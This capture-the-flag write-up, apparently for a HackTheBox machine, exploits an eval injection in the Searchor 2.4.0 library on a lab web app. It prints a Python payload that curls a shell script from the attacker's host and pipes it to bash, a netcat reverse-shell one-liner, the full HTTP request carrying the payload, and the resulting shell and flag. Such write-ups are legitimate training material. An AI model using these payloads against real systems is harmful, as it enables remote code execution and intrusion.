 
1) I visit the Web App, and I discover that the version of the code is `Searchor 2.4.0` in the backend:
```Footer
Powered by [Flask](https://flask.palletsprojects.com) and [Searchor 2.4.0](https://github.com/ArjunSharda/Searchor) 
```

2) I do a code review, I discover that the developer have remove the eval of the code "[removed eval from search cli method](https://github.com/ArjunSharda/Searchor/pull/130)", "[Searchor 2.4.0](https://github.com/ArjunSharda/Searchor/blob/v2.4.0/src/searchor/main.py )" I craft my payload:
```
http://127.0.0.1/debug' eval(compile('for x in range(1):\n import os\n os.system("curl http://<Ip Address>/shell.sh|bash")','a','single'))
```


## Arbitrary Code Execution

3) I create the code of the reverse shell:
```
┌──(kali㉿kali)-[~]
└─$ nano shell.sh 

┌──(kali㉿kali)-[~]
└─$ cat shell.sh  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.206  9001 >/tmp/f
```

4) I open a web server with pthon:
```
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

6) I open a port listening with netcat:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001  
listening on [any] 9001 ...
```

4) I put this payload in the "query" parameter
- Request:
```http
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 28
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

engine=Accuweather&query=http%3a//127.0.0.1/'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("curl%20http%3a%2F%2F10.10.14.206%2Fshell.sh%7Cbash")','a','single'))%2b'
```

- Reverse Shell:
```
┌──(kali㉿kali)-[~]
└─$  nc -lnvp 9001 
listening on [any] 9001 ...
connect to [10.10.14.206] from (UNKNOWN) [10.10.11.208] 50112
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc
$ 
```

5) I get the flag:
```
$ ls -all
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 .
drwxr-xr-x 4 root     root     4096 Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1 14:22 app.py
drwxr-xr-x 8 www-data www-data 4096 Apr 24 19:32 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 templates
$ cd /home/svc
$ ls -all
total 48
drwxr-x--- 5 svc  svc  4096 Apr 24 19:54 .
drwxr-xr-x 3 root root 4096 Dec 22 18:56 ..
lrwxrwxrwx 1 root root    9 Feb 20 12:08 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 svc  svc  3771 Jan  6  2022 .bashrc
drwx------ 2 svc  svc  4096 Feb 28 11:37 .cache
-rw-r--r-- 1 svc  svc  1024 Apr 24 19:40 .full-checkup.sh.swp
-rw-rw-r-- 1 svc  svc    76 Apr  3 08:58 .gitconfig
drwxrwxr-x 5 svc  svc  4096 Jun 15  2022 .local
lrwxrwxrwx 1 root root    9 Apr  3 08:58 .mysql_history -> /dev/null
-rw-r--r-- 1 svc  svc   807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 Feb 20 14:08 .searchor-history.json -> /dev/null
drwxr-xr-x 2 svc  svc  4096 Apr 24 19:39 .ssh
-rw-r----- 1 root svc    33 Apr 24 19:32 user.txt
-rw------- 1 svc  svc   970 Apr 24 19:35 .viminfo
$ cat user.txt
638b187072d1b1f247df35c92b960141
```
